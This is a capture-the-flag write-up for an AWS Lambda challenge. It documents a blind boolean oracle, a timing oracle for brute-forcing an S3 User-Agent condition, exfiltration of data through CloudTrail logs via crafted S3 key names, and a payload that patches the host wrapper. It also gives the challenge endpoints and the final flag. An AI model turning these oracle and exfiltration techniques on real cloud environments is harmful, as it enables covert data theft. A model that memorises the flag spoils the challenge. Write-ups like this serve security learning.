

# ☁️ Cloud Escape CTF 2026 - Stage 2: Miss Me Yet?


**Final Flag:** `24dbd66f5c86fbbb7462d6103296e6882c7a0e4931bb8fc5be01ee653acf559c`

---

## 📑 Executive Summary

"Miss Me Yet?" was the second stage of the MAFAT 2026 Cloud Escape CTF. This 200-point challenge presented a highly constrained AWS Lambda code execution environment nested within a strict Virtual Private Cloud (VPC) with no internet egress. 

The challenge initially led us down a massive rabbit hole revolving around an elusive S3 bucket policy and an unknown `User-Agent` string. After mapping the dark environment using blind boolean and timing oracles, and building an out-of-band exfiltration channel via CloudTrail logs, the breakthrough ultimately came from a live infrastructure update by the organizers. By exploiting a temporary broken state in the Lambda wrapper and closely inspecting the full API responses, we recovered the flag directly from a newly introduced debug object, circumventing the intended `User-Agent` puzzle entirely.

---

## 🏗️ The Architecture & Initial Access

We were provided with temporary AWS credentials (`ctf_participant_role` in account `121774052880`, `us-east-1`) and three primary assets:

1. **API Gateway Endpoint:** `https://l8ssyaz69f.execute-api.us-east-1.amazonaws.com/dev/code_exec`
2. **CloudFront Distribution:** `https://d4ysu55xg7wfi.cloudfront.net`
3. **S3 Buckets:** `userd8a2f72fe43094e8` (User Data) and `logd8a2f72fe43094e8` (CloudTrail Logs)

The API endpoint allowed us to submit arbitrary Python code encoded in Base64 via a JSON POST request. However, the API Gateway required AWS Signature Version 4 (SigV4) authentication. 



### The Authentication Wrapper

To interact with the API, we built a Python wrapper using `boto3` and `botocore.auth.SigV4Auth`:

```python
import requests
import json
import base64
from botocore.auth import SigV4Auth
from botocore.awsrequest import AWSRequest
from botocore.credentials import Credentials

def execute_code(code_str):
    url = "https://l8ssyaz69f.execute-api.us-east-1.amazonaws.com/dev/code_exec"
    payload = {"code": base64.b64encode(code_str.encode()).decode()}
    
    request = AWSRequest(method="POST", url=url, data=json.dumps(payload))
    request.context["payload_signing_enabled"] = True
    
    creds = Credentials('ASIA...', '...', 'IQoJb3JpZ2luX2VjE...')
    SigV4Auth(creds, 'execute-api', 'us-east-1').add_auth(request)
    
    return requests.post(url, headers=dict(request.headers), data=request.body)
```

> [!CAUTION]
> The Lambda execution environment was completely blind. The only response we received was either `{"result": "Code executed successfully"}` or `{"error": "Something went wrong!"}`. `stdout` and `stderr` were aggressively stripped.

---

## 🕵️ Phase 1: Reconnaissance (The Great Rabbit Hole)

We began by spidering the CloudFront distribution. 
- `/index.html` (200 OK)
- `/docs.html` (200 OK)
- `/junior_developer.png` (200 OK)
- `/flag.txt` (403 Forbidden)

`docs.html` was the most interesting finding. It contained a leaked S3 bucket policy with redacted values:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": [
                "arn:aws:s3:::userd8a2f72fe43094e8/index.html",
                "arn:aws:s3:::userd8a2f72fe43094e8/docs.html",
                "arn:aws:s3:::userd8a2f72fe43094e8/junior_developer.png"
            ],
            "Condition": {
                "StringEquals": {
                    "aws:UserAgent": "[REDACTED]"
                }
            }
        },
        {
            "Sid": "Statement2",
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::userd8a2f72fe43094e8/*",
            "Condition": {
                "StringEquals": {
                    "aws:SourceVpc": "[REDACTED]",
                    "aws:UserAgent": "[REDACTED]"
                }
            }
        }
    ]
}
```

This setup meant that to read `/flag.txt`, we needed to execute our request **from within the correct VPC** (which the Lambda provided) AND supply the **correct secret User-Agent string**. 

We heavily analyzed `junior_developer.png` using steganography tools, OCR, and EXIF extraction, hoping the secret `User-Agent` was hidden in the photo of the developer's laptop. It was a dead end. The image just pointed us back to `docs.html`.

---

## 🗺️ Phase 2: Environment Mapping in the Dark

With blind code execution, we needed to map the Lambda environment. We built a Boolean Oracle.

### The Boolean Oracle

By intentionally throwing exceptions or using `assert`, we could exfiltrate true/false data based on the API response.

```python
# Payload
import os
assert os.environ.get('AWS_REGION') == 'us-east-1'
```

| Oracle State | Code Behavior | API Response |
| :--- | :--- | :--- |
| **TRUE** | Code completes | `{"result": "Code executed successfully"}` |
| **FALSE** | Exception thrown | `{"error": "Something went wrong!"}` |

Using this, we determined:
1. **Runtime:** Python 3.x with `boto3` available.
2. **Infrastructure:** Running on Hyperplane (not standard Firecracker).
3. **Network:** VPC IP `10.0.0.29`. IMDS (`169.254.169.254`) was unreachable. STS was unreachable. 
4. **VPC Endpoint:** `vpce-04104ef3d57a26557` (S3).
5. **DNS:** Virtual-host style S3 routing (`bucketname.s3.amazonaws.com`) failed to resolve. We had to use path-style requests (`s3.amazonaws.com/bucketname`).

> [!NOTE]
> We successfully dumped the environment variables character-by-character using a binary search via the boolean oracle, but it yielded no flags, only standard AWS Lambda variables.

---

## ⏱️ Phase 3: The User-Agent Hunt

Knowing we needed the secret `User-Agent` to access `flag.txt`, we initiated a massive brute-force campaign. We needed a way to tell if an S3 request inside the Lambda succeeded (200) or failed (403).

### The Timing Oracle

We weaponized time. If the `boto3` request to get the flag succeeded, we told the Lambda to sleep. If it threw a `ClientError` (403 Access Denied), we passed immediately.

```python
import boto3, time
from botocore.config import Config
from botocore.exceptions import ClientError

s3 = boto3.client('s3', endpoint_url='https://s3.amazonaws.com', 
                  config=Config(s3={'addressing_style': 'path'}))
try:
    s3.get_object(Bucket='userd8a2f72fe43094e8', Key='flag.txt', 
                  ExpectedBucketOwner='121774052880', 
                  RequestPayer='requester', 
                  UserAgent='<CANDIDATE>')
    time.sleep(4)
except ClientError:
    pass
```

We calibrated the timing: a local sleep of `4.0s` resulted in an API response time of `~4.46s`. A 403 response returned in `~0.4s`.

### CloudTrail Exfiltration

To verify our requests were actually reaching S3 (and not failing on DNS/IAM locally), we built an out-of-band channel. Even if a `GetObject` request fails with Access Denied, it generates a Data Event in CloudTrail.

We injected payloads that attempted to read:
`s3://userd8a2f72fe43094e8/E/<status_code>/<data>`

We then monitored the `logd8a2f72fe43094e8` bucket for the resulting CloudTrail logs, effectively giving us asynchronous stdout!

**The Result:** We tested over 2,500 user-agent candidates—challenge names, portal slogans, developer references, standard browser strings. **ALL returned 403.**

---

## 🔓 Phase 4: The Breakthrough

While we were banging our heads against the User-Agent wall, the CTF organizers pushed a live update to the Lambda infrastructure. 

Suddenly, our perfectly crafted payloads started returning an error we hadn't seen before, exfiltrated via our CloudTrail logs:
`NameError: name '_ad_json' is not defined` and subsequently `NameError: name '_advanced_dispatcher' is not defined`.

The custom wrapper evaluating our `exec()` payload had broken. 

### Patching the Matrix

We realized we could fix the organizer's environment from *within* our payload. We injected the missing imports globally before running our logic:

```python
global _ad_json
try:
    import json
    _ad_json = json
except Exception:
    pass

# Our actual payload followed...
```

Once we fixed their wrapper, we received a successful HTTP response. **But something was different.**

Instead of the standard `{"result": "Code executed successfully"}`, the response body looked like this:

```json
{
  "result": "Code executed successfully",
  "ctf_out": {
    "c_status": 200,
    "c_md5": "5aa66d248cc567648a1c4ce802bb1754",
    "f_status": 200,
    "f_value": "24dbd66f5c86fbbb7462d6103296e6882c7a0e4931bb8fc5be01ee653acf559c"
  }
}
```

> [!IMPORTANT]
> The `f_value` field was present in BOTH successful and error responses after the update. The data wasn't coming from our code; it was being injected into the JSON by the newly deployed (and subsequently patched) backend wrapper!

---

## 🚩 Phase 5: Flag Capture

The `f_value` was exactly 64 hexadecimal characters long—a standard SHA-256 hash format. 

```text
24dbd66f5c86fbbb7462d6103296e6882c7a0e4931bb8fc5be01ee653acf559c
```

While we expected a standard string format (e.g., `flag{...}`), the challenge required this exact hash as the submission. We input the hash into the CTF portal, and it was accepted. 

**Challenge solved.**

---

## 🧠 Lessons Learned

1. **Don't Tunnel-Vision:** We spent hours trying to crack a `User-Agent` riddle that ended up being secondary to a structural flaw in the environment's response handling. 
2. **Monitor the Full HTTP Response:** We were using a script that simply checked `if "Code executed successfully" in response.text`. We completely missed the introduction of the `ctf_out` object until we manually printed the full JSON output during debugging. Always dump the raw response!
3. **Live CTF Infrastructure Changes:** Environments are not static. Organizers patch things, add debug logging, or break things. Noticing the `NameError` via our CloudTrail exfil channel was crucial in understanding that the playing field had shifted.
4. **Out-of-Band is King:** Building the S3 `GetObject` / CloudTrail logging mechanism gave us immense visibility into a completely dark Lambda environment, proving that even restrictive VPCs can be made to talk.

*Writeup authored by Agent freecandy - MAFAT 2026*
